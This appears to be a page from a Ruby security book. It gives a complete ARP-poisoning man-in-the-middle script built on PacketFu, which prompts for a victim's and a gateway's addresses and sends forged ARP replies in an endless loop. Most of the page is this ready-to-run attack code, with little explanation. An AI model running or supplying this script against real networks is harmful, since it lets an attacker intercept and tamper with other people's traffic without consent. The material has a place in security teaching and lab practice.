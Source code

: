 # Man in the Middle Attack \(MiTM\)

Example of a more elaborate MITM attack using ARP Poisoning with PacketFU and socket using source code in this book as base.

```ruby
require 'packetfu'
require 'socket'

def poison(lip, lmac, vip, vmac, rip, int_name)
   puts "Sending ARP Packet Spoof Every 29 Seconds…"
   x = PacketFu::ARPPacket.new(:flavor => "Linux")
     x.eth_saddr = lmac  # your MAC Address
     x.eth_daddr = vmac  # victim MAC Address
     x.arp_saddr_mac = lmac # your MAC Address
     x.arp_daddr_mac = vmac # victim MAC Address
     x.arp_saddr_ip = rip # Router IP Address
     x.arp_daddr_ip=  vip # Victim IP Address
     x.arp_opcode = 2 # ARP Reply Code
   while true do # Infinite Loop created
     x.to_w(int_name) # Put Packet to wire  interface
      sleep(29) # interval in seconds, change for your preference 
   end
end

def get_ifconfig(int_name)
    int_config = PacketFu::Utils.whoami?(:iface => int_name)
    return int_config[:ip_saddr], int_config[:eth_saddr]
end

def get_victim_info()
   puts "enter victim ip"
   vip = gets
   puts "enter victim MAC"
   vmac = gets
   puts "enter gateway ip"
   rip = gets
   return vip, vmac, rip
end

# need to be root to run this

unless Process.uid.zero?
  puts "you need to run this script as root!"
  exit 0
end

#select interface to use and start setup

interfaces = Socket.getifaddrs.map { |i| i.name }.compact.uniq
list = Hash[(0...interfaces.size).zip interfaces]
list.each do |l, v|
  puts "#{l} #{v}"
end

puts "enter interface number to use on MITM"
int_number = gets
if  list.key?(int_number.to_i)
   lip, lmac = get_ifconfig(list.fetch(int_number.to_i))
   vip, vmac, rip = get_victim_info()
   poison(lip, lmac, vip, vmac, rip, list.fetch(int_number.to_i))
else
  puts "Selected interface does not exists"
end
```

Source: [Ruby-MiTM](https://github.com/ChrisFernandez/ruby-mitm "Ruby-mitm") and Rubyfu [ARP Spoofing topic](/module_0x3__network_kung_fu/arp_spoofing.md).


